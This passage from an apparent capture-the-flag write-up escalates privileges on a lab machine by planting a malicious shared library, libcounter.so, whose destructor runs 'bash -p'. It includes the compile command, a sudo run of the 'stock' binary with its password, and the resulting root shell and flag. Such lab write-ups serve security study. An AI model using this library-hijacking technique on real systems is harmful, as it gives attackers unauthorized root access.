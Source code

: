 There is a call to `libcounter.so` that fails because it does not exists.  
What if we can build our own malicious `libcounter.so` and escalate our privileges with it?

A `.so` file is a shared object linked during the runtime after the creation of your .o file -o option in gcc. The advantage for us, is that we don't need to recompile the `stock` binary to use our own `libcounter.so`, we will just link it `libcounter.c`.

Our malicious `libcounter.so` will look like this, it opens a bash as root after the `stock` binary is finished.

```c
#include <unistd.h>

void begin (void) __attribute__((destructor));

void begin (void) {
    system("bash -p");
}
```

We have to compile it and then running the `stock` binary with `sudo`.

```sh
(remote) rektsu@zipping:/home/rektsu/.config$ gcc -shared -o libcounter.so -fPIC libcounter.c

(remote) rektsu@zipping:/home/rektsu/.config$ sudo /usr/bin/stock 
Enter the password: St0ckM4nager

================== Menu ==================

1) See the stock
2) Edit the stock
3) Exit the program

Select an option: 3

root@zipping:/home/rektsu/.config# id
uid=0(root) gid=0(root) groups=0(root)

root@zipping:/home/rektsu/.config# cat /root/root.txt
db0872260ca31c785a93a40dcb9c012d
```